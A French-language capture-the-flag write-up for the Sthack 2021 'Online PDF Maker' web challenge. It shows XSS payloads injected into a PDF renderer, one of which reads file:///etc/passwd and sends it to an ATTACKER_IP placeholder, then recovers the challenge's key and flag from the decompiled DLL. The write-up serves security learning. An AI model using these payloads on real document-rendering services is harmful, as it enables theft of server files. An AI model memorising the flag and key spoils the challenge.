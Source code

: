```yaml
---
title: Web - Online PDF Maker
category: Sthack2021
author: karzemrok
tags:
- sthack2021
- web
- ctf
description: "Writeup Sthack 2021 - Online PDF Maker - WEB"
---
```

## Fichier

- [OnlinePdfMaker.dll](https://github.com/ZenSecCTF/zensecctf.github.io/releases/download/Sthack2021-Files/OnlinePdfMaker.dll)

## Résolution

L'application disponible nous propose d'entrer un texte et de le transformer en PDF

![]({{site.url}}/static/upload_412dab4cc8bb5e4a25db2b393616317d.png)

Une vulnérabilité courante ici, c'est l'XSS dans le moteur de rendu du PDF. Il est possible de le vérifier avec le payload suivant:

```html
<script>
document.write('test');
</script>
```

![]({{site.url}}/static/upload_dd513641a33e58411ece557d3e82cfe2.png)

Il peut être aussi intéressant de savoir d'où est rendu le PDF

```html
<script>
document.write(document.location);
</script>
```

![]({{site.url}}/static/upload_649b2b7457c62b1ec90c026cd3d5b20f.png)

Comme le PDF est rendu depuis un fichier (**file:///tmp/wktemp...**), nous allons pouvoir exfiltrer des fichiers. Nous pouvons par exemple extraire **/etc/passwd** de cette façon

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
    var x2 = new XMLHttpRequest();
    x2.open("PUT", 'http://ATTACKER_IP/sthack/passwd');
    x2.send(this.response)
};
x.open("GET","file:///etc/passwd");
x.responseType = 'arraybuffer';
x.send();
</script>
```

Maintenant que nous sommes en mesure de télécharger des fichiers sur la machine, il nous faut trouver des fichiers intéressants (comme les sources par exemple). Nous avons un indice dans l'HTML de l'application

![]({{site.url}}/static/upload_755639ef667bd38587be7cbcf89d83f0.png)

Nous savons que l'application est de l'ASP.net, il faut donc chercher un fichier **dll**. En tâtonnant un peu, on trouve que le nom du fichier dll est le même que le copyright : `OnlinePdfMaker.dll`

Une fois la Dll décompilée avec [ILSpy](https://github.com/icsharpcode/ILSpy), on trouve ce bout de code qui semble gérer l'affichage du flag:

```csharp
string text = "";
string s = "FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6";
string text2 = "VGhlRmxhZ0lzU29tZXdoZXJlX3VzZV95b3VyX2JyYWlu";
text2 = text2.Substring(1, 1) + text2.Substring(1, 1) + text2.Substring(32, 1) + text2.Substring(4, 1) + text2.Substring(9, 1);
text2 += Encoding.Default.GetString(Convert.FromBase64String("ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp"));
if (!string.Equals(keyValue, text2))
{
	text = ((keyValue != null && !keyValue.Equals("")) ? "Wrong key" : "");
}
else
{
	string text3 = EncryptModel.XORCipher(Encoding.Default.GetString(Convert.FromBase64String(s)), text2);
	text = "flag : " + text3;
}
```

Après la ligne 4, text2 à la valeur `GGbR0`. A cette valeur, on ajoute `ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp` dans sa forme base64 décodée (`don't_guess_look_at_the_code!!_;)`)

Ensuite cette variable est utilisée en tant que clé XOR pour la valeur base64 décodée de `FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6`

Ce qui nous donne le flag `STHACK{W3ll_D0ne_\o/_U_f0und_Th3_c0d3!}`

On aurait aussi pu mettre `GGbR0don't_guess_look_at_the_code!!_;)` dans le paramètre `keyValue` du formulaire de génération de PDF pour voir le flag injecté dans le PDF directement.

![]({{site.url}}/static/upload_d6efbae1ee68a7ac33ac12d65656320b.png)

